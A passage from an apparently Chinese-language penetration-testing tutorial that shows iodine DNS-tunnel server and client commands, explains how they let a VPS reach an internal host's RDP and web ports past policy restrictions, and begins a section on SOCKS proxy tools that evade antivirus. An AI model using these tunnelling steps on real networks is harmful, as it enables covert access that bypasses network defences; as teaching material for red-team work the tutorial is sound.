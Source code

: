 Windows 可以直接到官网下载，下载地址：https://code.kryo.se/iodine/，服务端名称是 iodined.exe，客户端是
iodine.exe

## 3、使用

这里服务端使用的是 Linux，服务端命令如下：

    
    
    sudo iodined -f -c -P teamssix 192.168.77.1 dc.teamssix.com -DD
    
    
     -f        在前台运行  
     -c        不检查传入请求的客户端 IP 地址  
     -P        客户端与服务端之间的连接密码  
     -D        调试级别，-D 表示第一级，-DD 表示第二级，依此类推  
      
     192.168.77.1 是自己自定义的局域网虚拟 IP 地址。

这里客户端使用的是 Windows，Windows 客户端上除了要有 iodine 相关文件外，还需要安装 tap 网卡驱动程序，这里我百度找了一个下载地址
http://www.qudong51.net/qudong/981.html

打开下载好的 tap 网卡驱动程序，一直下一步下一步安装就行。

然后就可以启动客户端程序了，注意下载下来的 dll 文件要和 exe 在一个目录下，不能只复制一个 exe 到目标主机上，而且要以管理员权限运行下面的命令。

    
    
    .\iodine.exe -f -r -P teamssix dc.teamssix.com
    
    
    -r        iodine 有时会自动将 DNS 隧道切换成 UDP 通道，使用 -r 命令可以强制让 iodine 在任何情况下都使用 DNS 隧道

如果出现 `Connection setup complete, transmitting data.` 就表示 DNS 隧道就已经建立了。

这时如果去 ping 服务端自定义的虚拟 IP 也是可以 ping 通的。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204339.png)

假如这里内网机器分配到了 192.168.77.2 这个 IP ，因为处在一个局域网中，所以 VPS 直接访问 192.168.77.2 的 3389、80
等端口就可以直接访问到内网机器的相关端口了，同样的内网主机也可以访问 VPS 的 22 端口等等，至此便绕过了策略限制。

# 0x10 ew 的使用

## 1、Socks 代理工具介绍

Socks 代理可以理解成升级版的 lcx，关于 lcx 的用法可以看我之前的文章：

https://teamssix.com/year/210528-130449.html

但是 lcx 毕竟年代久远，现在的杀软基本也都能识别到了，因此在实战中不太推荐使用 lcx ，更推荐使用这些 socks 代理工具。

常见的 socks 代理工具有 ew、termite、frp、nps、sSocks、reGeorg、Neo-
reGeorg、SocksCap、Proxifier、ProxyChains 等等，不同的工具适合使用的场景和方法都有所不同。

因为在这其中有些工具笔者较经常使用，所以这里主要记录下 ew、frp、nps 的使用方法，本篇文章主要记录 ew 的使用，后续文章将更新 frp、nps
的使用。

开始之前，先理解下正向代理和反向代理的区别。
